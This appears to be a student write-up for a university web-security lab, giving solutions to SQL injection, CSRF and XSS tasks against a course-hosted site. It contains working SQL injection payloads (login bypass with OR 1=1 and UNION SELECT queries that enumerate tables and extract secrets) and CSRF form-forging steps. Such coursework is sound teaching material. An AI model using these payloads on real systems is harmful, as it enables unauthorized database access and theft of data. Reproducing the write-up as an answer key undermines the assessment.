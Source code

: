 # MP2 - WebSec
##### Instructor: Adam Bates & Ling Ren
CP1 Deadline --- Wednesday, September 27th, 6:00PM

CP2 Deadline --- Thursday, October 6th, 6:00PM

## Project Setup
1. Download VMWare
2. Download Ubuntu 18.04 LTS (CS461 Virtual Machine) at [here](https://uofi.box.com/s/aqaixm5igvqbyxys7gpswxgcsf7nyqo6)
3. Setup the VM in VMWare 

## Build Project
None

## Implementation
#### 2.2.1.1
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
' OR 1=1 -- 
```
#### 2.2.1.2
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
\' OR 1=1 -- 
```
#### 2.2.1.3
Write a python script to mine `md5` hash

Type the following command to run the python script `2.2.1.3.py`
```
./2.2.1.3.py
```
The `passwd` got from the python script are
* `61873882145751551400929987756087961` [35-digit]
* `1107388038190758764683658965752877062` [37-digit]


#### 2.2.1.4
##### 1. Figure out how many columns there are in the table with the following command
```
' OR 1=1 ORDER BY 1; -- 
' OR 1=1 ORDER BY 2; -- 
' OR 1=1 ORDER BY 3; -- 
' OR 1=1 ORDER BY 4; -- 
' OR 1=1 ORDER BY 5; -- 
```
The last command will give you an error. Therefore, there are 4 columns in the table.

##### 2. Use the following command to get the `Database Name`
```
' UNION SELECT NULL,NULL,NULL,DATABASE(); -- 
```

##### 3. Use the following command to get the `Database Version`
```
' UNION SELECT NULL,NULL,NULL,version(); -- 
```
Or use the following alternative command
```
' UNION SELECT NULL,NULL,NULL,@@version; -- 
```

##### 4. Use the following command to get all `Table` in the Database
```
' UNION SELECT NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='proj2_inject3'; --
```

##### 5. Use the following command to get all `Column` in Table `HINT`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='HINT'; -- 
```
The `column_name` got from Table `HINT` are _id_ and _message_

Use the following command to get `message` from Table `HINT` with `id=1`
```
' UNION SELECT NULL,NULL,NULL,message FROM HINT WHERE id='1'; -- 
```
The `message` from table `HINT` with `id=1` is _go to table SECRET and get a secret string from row with your md5(netid)_

Use the following command to get all `Column` in Table `SECRET`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='SECRET'; -- 
```
The `column_name` got from Table `SECRET` are _hash_, _id_, and _secret_

Use the following command to get `md5(netid)`
```
./md5.py
```

Then, use the following command to get `secret` from Table `SECRET` with the `hash=md5(netid)`
```
' UNION SELECT NULL,NULL,NULL,secret FROM SECRET WHERE hash='3168622a73961f1d17b1a105be567177'; -- 
```

#### 2.2.2.1
Create &lt;iframe&gt; that displays nothing

&lt;form&gt; `action`=http://bungle-cs461.csl.illinois.edu/login

Log in with following infomation:
* `csrfdefense`=0
* `xssdefense`=5
* `username`=attacker
* `password`=l33th4x

#### 2.2.2.2
Create &lt;iframe&gt; that displays nothing

Go to original [`Bungle` website](http://bungle-cs461.csl.illinois.edu/)

Right click on search window, and click `Inspect Element`

* The `name`=q

Right click on either `username` or `password` window, and click `Inspect Element`

* &lt;input type="hidden" name="csrf_token" value="9165db97e970e7d9facd256db1fdf2f8"&gt;

Submit 2 HTML &lt;form&gt; with function `submitForm()`
* Both of them use `target`=ifrm
* The first form use `action`=http://bungle-cs461.csl.illinois.edu/search
* The second form use `action`=http://bungle-cs461.csl.illinois.edu/login

#### 2.2.3.1
Go to Website [here](http://bungle-cs461.csl.illinois.edu/multivac/?name=INSERT%20ATTACK%20HERE)

Right click on the hyperlink `Click me` and click `Inspect Element`

* &lt;a href="http://cs.illinois.edu/"&gt;Click me&lt;/a&gt;

Use the function `getElementsByTagName` to search for the first `a` and replace its `href` with the following

* http://ece.illinois.edu/

#### 2.2.3.2

## Developers
* Hongbo Zheng [NetID: hongboz2]
* Max Song [NetID: mcsong2]
